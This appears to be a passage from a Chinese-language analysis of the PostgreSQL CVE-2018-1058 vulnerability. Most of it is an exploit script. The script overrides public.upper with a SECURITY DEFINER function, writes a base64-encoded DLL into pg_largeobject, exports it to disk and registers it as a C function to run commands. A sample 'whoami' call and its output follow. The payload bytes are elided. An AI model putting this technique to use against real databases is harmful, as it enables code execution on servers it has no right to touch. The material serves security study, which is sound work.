 ![7](./postgresql-远程代码执行漏洞（cve-2018-1058）分析及利用/20180401180758187.png)

结合创建本次分析的 CVE-2018-1058，可以使用如下语句实现自动化利用

```SQL
CREATE OR REPLACE FUNCTION public.upper(character varying) RETURNS text AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
PERFORM lo_create(623879);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('TVqQAA......IPEIF8=', 'base64'));
...
...
INSERT INTO pg_largeobject VALUES (12345, 0, decode('MqLfLZ......AAAAA=', 'base64'));
PERFORM lo_export(623879, 'E:\test.dll');
PERFORM lo_unlink(623879);
CREATE OR REPLACE FUNCTION exec() RETURNS VOID AS  'E:\test.dll', 'exec' LANGUAGE C STRICT;
PERFORM exec();
RETURN pg_catalog.upper($1);
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
```

然后再调用`select public.upper('whoami');`

```
cve_test=# select public.upper('whoami');
INFO:  import success

 upper
--------
 WHOAMI
(1 行记录)
```
